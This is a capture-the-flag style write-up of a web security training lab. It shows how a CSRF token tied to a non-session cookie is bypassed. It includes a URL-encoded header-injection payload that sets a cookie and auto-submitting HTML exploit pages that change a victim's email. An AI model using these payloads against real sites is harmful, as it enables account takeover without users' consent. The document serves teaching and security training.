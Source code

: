 ### CSRF where token is tied to non-session cookie : PRACTITIONER

---

Given credentials `wiener:peter` and `carlos:montoya`.
- The goal is to change the email of the victim using a CSRF attack.
- The CSRF tokens in place are not tied to the session.

Logging in with the given credentials.

![](./screenshots/lab1-1.png)

We see this page.

![](./screenshots/lab1-2.png)

We know that the update email is vulnerable to CSRF.
- Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab5-1.png)

We see there is a `csrfKey` cookie and a `csrf` parameter.
- We need to test how these operate.

1. Test if we can change the `csrf` token

![](./screenshots/lab5.png)

2. Test if we can place the `csrf` token of another user.

> To do that, login as carlos in another window and obtain the `csrf` key.

![](./screenshots/lab5-2.png)
- Copying the `csrf` parameter : `36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk`.

Place it into the parameter in the `POST` request.

![](./screenshots/lab5-3.png)


3. Test if we can take the `csrfKey` cookie and `csrf` token parameter from another user, so it works without verifying the session cookie, and placing this combination for another user.

To do that, login as carlos in another window and open the cookies.

![](./screenshots/lab5-4.png)

Copying the `csrfKey` : `IBuIZ44nmISVeACecCzxOeLyT1YIxL9p`.
- Entering in the `POST` request the `csrfKey` and `csrf` parameter of the other user and trying to change the email of the wiener user.

![](./screenshots/lab5-5.png)

It works.

Therefore, in order to conduct an attack, we need to construct an HTML payload that contains the 2 parameters `email` and `csrf`.
- However, we need to be able to set the cookie.
- To do that, we can use the search functionality on the website.

![](./screenshots/lab5-6.png)

Capturing the `GET` request after searching using HTTP history.

![](./screenshots/lab5-8.png)

> There is a `Set-Cookie` header being used to create a new cookie.

Therefore, we can play with this request to add another cookie, letting it be called `csrfKey` and setting its value to the one we found above `IBuIZ44nmISVeACecCzxOeLyT1YIxL9p`.

- To do that, we can add HTML headers through the URL.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```

- However, we need to URL encode this payload.
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

Adding this payload at the end of the `GET` request above.

![](./screenshots/lab5-9.png)

We see that we added our own `csrfKey` cookie.
- This means that we can inject our own cookies.
- The next step, is to incorporate this payload into the HTML payload.

> This is the normal payload we used in previous labs.
```HTML
<html> 
	<body> 
		<form action="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk" />
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

This will change, because we need to add the payload to add the `csrfKey` cookie.

```HTML
<html> 
	<body> 
		<form action="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk" />
		</form> 
		<img src="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

We added an image that loads a page with the URL of the `GET` request above that we modified to set the cookie.
- Getting the host and path from the `GET` request to create the full URL that is placed in the `src` attribute.
- This link gets loaded, but since it isn't a valid image, after it gets loaded, the `onerror` attribute submits the form, completing the action.

Adding this to exploit server, then storing and delivering to victim completes the lab.

---

